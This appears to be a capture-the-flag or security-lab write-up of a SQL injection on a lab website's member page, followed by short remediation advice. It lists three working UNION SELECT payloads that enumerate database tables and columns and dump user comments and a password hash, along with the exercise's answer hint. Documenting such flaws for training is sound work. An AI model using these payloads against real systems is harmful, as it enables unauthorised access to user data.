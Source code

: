 # The issue
Forms are not protected against SQL injection enabling us to get access to precious information

## How to reproduce it on the website?
On page http://10.13.0.53/?page=member 

Enter `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`
in order to get all the tables.

Enter `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns` in order to get the columns of tables.

Enter `1 AND 1=2 UNION SELECT Commentaire, countersign  FROM Member_Sql_Injection.users` to get information of the user tables.

You can see this text and just need to apply it:
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Why is it a problem?
You can access to the content of the different tables especially to the users.


## How to avoid it?
Use a good framework that prepare accordingly the sql requests.
Be sure to escape correctly special characters. Check for the data given versus the data type expected in the database. 


